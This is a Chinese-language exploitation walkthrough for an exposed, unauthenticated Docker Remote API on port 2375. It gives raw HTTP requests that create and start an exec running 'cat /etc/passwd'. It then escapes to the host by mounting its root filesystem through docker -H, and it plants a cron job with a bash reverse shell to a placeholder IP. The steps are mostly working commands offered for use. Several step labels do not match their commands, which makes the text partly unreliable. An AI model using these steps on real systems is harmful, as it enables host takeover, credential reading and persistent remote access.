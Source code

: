 ### 漏洞利用

1. 访问 http://ip:2375/containers/json 看是否出现以下画面：  
![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxrGfZ0YIvHv7WhHBH4RltfkX9dQZYNKrjibiaybPXuPL5Xx6ZL8iaLJ1E3aIkCcmH6MEfWl3ZicNoHIg/640?wx_fmt=png)

2. 创建一个包，得到返回的 exec_id 的参数，数据包内容如下：

> POST /containers/<container_id>/exec HTTP/1.1  
> Host: <docker_host>:PORT  
> Content-Type: application/json  
> Content-Length: 188
> 
> {  
> “AttachStdin”: true,  
> “AttachStdout”: true,  
> “AttachStderr”: true,  
> “Cmd”: [“cat”, “/etc/passwd”],  
> “DetachKeys”: “ctrl-p,ctrl-q”,  
> “Privileged”: true,  
> “Tty”: true  
> }

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxrGfZ0YIvHv7WhHBH4RltfqKakGnfzAqbNGFxuNLLTY2bwpLaSicibuicamQE43jQXHfUOMe5zgPtBA/640?wx_fmt=png)  
注意其中的 cmd 字段，这个就是要执行的命令。

3. 得到 exec_id 参数后构造第二个 exec_start 数据包，内容如下：

> POST /exec/<exec_id>/start HTTP/1.1  
> Host: <docker_host>:PORT  
> Content-Type: application/json
> 
> {  
> “Detach”: false,  
> “Tty”: false  
> }  
> 然后发送后会得到结果：  
> ![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxrGfZ0YIvHv7WhHBH4Rltf0hw94icQlxxjHFQGVKCF4p8wZo56at0E2DzkIRSibVfFP0icGXWhc0iaUw/640?wx_fmt=png)  
> 至此成功获取到 docker 主机的命令执行权限，但是还无法逃逸到宿主机。

4. 在 docker 容器内安装 docker 作为 client  

```
docker -H tcp://宿主ip:2375 run -it -v /:/test adafef2e596e /bin/bash
```

5. 查看宿主机的 docker image 信息  

```
echo '* * * * * bash -i >& /dev/tcp/x.x.x.x/8888 0>&1' >> /test/var/spool/cron/root
```

6. 启动一个容器并且将宿主机的根目录抓再到容器的某个目录  

```
mkdir /nuoyan
mount /dev/vda1 /nuoyan
```
